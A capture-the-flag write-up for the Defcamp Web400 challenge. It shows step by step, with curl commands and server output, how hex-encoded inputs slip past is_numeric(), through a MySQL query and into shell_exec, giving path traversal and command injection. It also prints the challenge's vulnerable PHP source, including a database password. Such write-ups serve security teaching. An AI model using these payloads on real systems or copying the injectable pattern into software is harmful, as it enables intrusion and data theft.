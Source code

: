 # Defcamp CTF - Web400


The website of the challenge is only displaying user number and their associated picture... Looking at the code when can see 

- For user 1 the picture src field is : `?id=1&usr=1`
- For user 2 the picture src field is : `?id=2&usr=2`

Strange... Do not think too fast to a SQLi and let's try playing a little with curl and the GET parameters : 

```bash
$> curl "http://10.13.37.5/?id=2&usr=1"
cat: images/2_6.jpg: No such file or directory
```
Ohhh... There is a direct call to `cat` from PHP. Let's try to make index.php source code appear.

```bash
$> curl "http://10.13.37.5/?id=../index.php;&usr=1"
ID or User ID must be numeric, obviously. Cheers from Bucharest, awesome girls, smoke free. :-) 
[...]
```

Ok, the "is_numeric()" function is certainely used. Let's try playing with numbers with a float :

```bash
$> curl "http://10.13.37.5/?id=2.1123213&usr=1"
cat: images/2.1123213_6.jpg: No such file or directory
```
Nice but not very useful. There is not really direct bypassing technique for the "is_numeric()" function, except when used in combination with MySQL (quite common) that support Hex Literals... So let's try with an hexadecimal number :

```bash
$> curl "http://10.13.37.5/?id=0x1&usr=1"
cat: images/_6.jpg: No such file or directory
```
The hexadecimal number given in parameter seem to be interpreted by something and doesn't appear anymore.

So we try with "../index.php" in hexadecimal : 

```bash
$> curl "http://10.13.37.5/?id=0x2e2e2f696e6465782e7068703b&usr=1"
cat: images/../index.php_6.jpg: No such file or directory
```

Yeah ! but we have to remove "_6.jpg", since we are in a shell we can just add  ";" (0x3b) :

```bash
$> curl "http://10.13.37.5/?id=0x2e2e2f696e6465782e7068703b&usr=1"
```

Nice !

```php
<?php

// ini_set('display_errors',1);
// error_reporting(E_ALL);

mysql_connect('localhost','w400', 'lajsflkjaslfjasklfj10412497128') or die('neah');
mysql_select_db('w400');

if(isset($_GET['id'], $_GET['usr'])) {

    if(!is_numeric($_GET['id']) || !is_numeric($_GET['usr'])) {
        die('ID or User ID must be numeric, obviously. Cheers from Bucharest, awesome girls, smoke free. :-) <br><img src="data:image/jpeg;base64,........... }

    $q = mysql_query('SELECT concat('.$_GET['id'].',"_",image) as path FROM images WHERE id="'.$_GET['usr'].'"');
    $path = mysql_result($q, 0);

    header('Content-Type: image/jpeg');
    echo shell_exec("cat images/$path 2>&1");
} else {
    echo '<h1>List of some users! I don\'t know CSS! :(</h1>';
    $q = mysql_query('SELECT * FROM `images`');
    while($row = mysql_fetch_array($q)) {
        echo '<h3>'.$row['user'].'</h3>';
        echo '<img src="?id='.$row['id'].'&usr='.$row['id'].'">';
    }
}
sh: 1: _6.jpg: not found

```

Nothing interesting in the source code so let's try a ";ls -l;" : 

```bash
> curl "http://10.13.37.5/?id=0x3b6c73202d6c3b&usr=1"
total 32
-rw-r--r-- 1 root root    38 Oct  1 22:14 6e8218531e0580b6754b3e3be5252873.txt
drwxrwxr-x 2 root root  4096 Oct  1 22:14 images
-rw-r--r-- 1 root root 21392 Oct  1 22:17 index.php
sh: 1: _6.jpg: not found
```

Done ! We only have to get 6e8218531e0580b6754b3e3be5252873.txt (by using `HTTP://x.x.x.x/6e8218531e0580b6754b3e3be5252873.txt` or with `cat` int the command injection...)

**DCTF{19b1f9f19688da85ec52a735c8da0dd3}**